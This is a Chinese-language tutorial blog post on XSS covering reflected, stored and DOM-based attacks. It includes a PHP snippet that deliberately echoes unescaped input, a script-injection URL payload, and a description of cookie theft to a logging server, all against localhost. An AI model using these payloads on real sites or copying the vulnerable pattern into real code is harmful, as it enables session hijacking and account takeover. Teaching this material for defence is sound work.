 ```yaml
---
layout: post
---
```

# web 安全
--
## XSS 跨站脚本攻击
> 黑客通过HTML注入改动网页，插入了恶意脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

看一个例子：假设把用户输入的参数直接输出到网页上。  
test1.php

```php
$input = $_GET["param"];
echo "<div>".$input."</div>";
```

> 现在的主流浏览器已经默认自带并开启了对于XSS（Cross Site Scripting）攻击的防护，Chrome使用的是XSS Auditor，其目的是识别URL请求参数中的存在的恶意Javascript脚本，并阻止这些脚本在服务器响应中执行。XSS Auditor采用黑名单方式来识别请求参数中的危险字符和标签，如果URL请求的参数与响应的内容不匹配，XSS Auditor则不会触发。  
> ps：暂时没找到染过xss Auditor进行Xss攻击。

### 反射型XSS
> 反射型XSS只是简单地把用户输入的数据“反射”给浏览器，也就是说，黑客往往诱使用户“点击“一个恶意链接，才能攻击成功。反射型XSS也叫做”非持久型XSS“。

### 存储型XSS
> 存储型XSS会把用户输入的数据“存储”在服务端，这种XSS具有很强的稳定性。

黑客写一篇恶意的javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的javascript代码。

### DOM Based Xss
> 通过修改页面的DOM节点形成的XSS。
比如有这样一个例子test2.html

--
### XSS攻击进阶
> XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意的脚本，通过恶意脚本控制用户浏览器，这些完成具体功能的恶意脚本，被称为XSS Payload。实际上就是通过javascript脚本。

一个常见的XSS Payload，就是通过读取浏览器的cookie对象，从而发起“Cookie 劫持”.  
cookie 一般加密保存了当前用户的登录凭证，cookie如果丢失，往往意味着用户的登录凭证丢失。换句话说，攻击者可以不通过密码，直接登录进用户的账户。
比如:  

```
http://127.0.0.1:8888/test1.php?param=<script%20src=http://127.0.0.1:8888/test3.js%20%3E%3C/script> 
```
真正的XSS Payload 写在这个远程的脚本中，避免url的参数里加入大量的javascript代码。  

> 在test3.js中通过代码窃取cookie。把document.cookie对象作为参数发送到远程服务器。
> 事实上 http:127.0.0.1:9999?log并不一定存在。远程服务器中的日志留下记录。

```
GET /log?cookie%3Dxxxxxxxx HTTP/1.1", upstream: "fastcgi://127.0.0.1:9000", host: "127.0.0.1:9999"
```
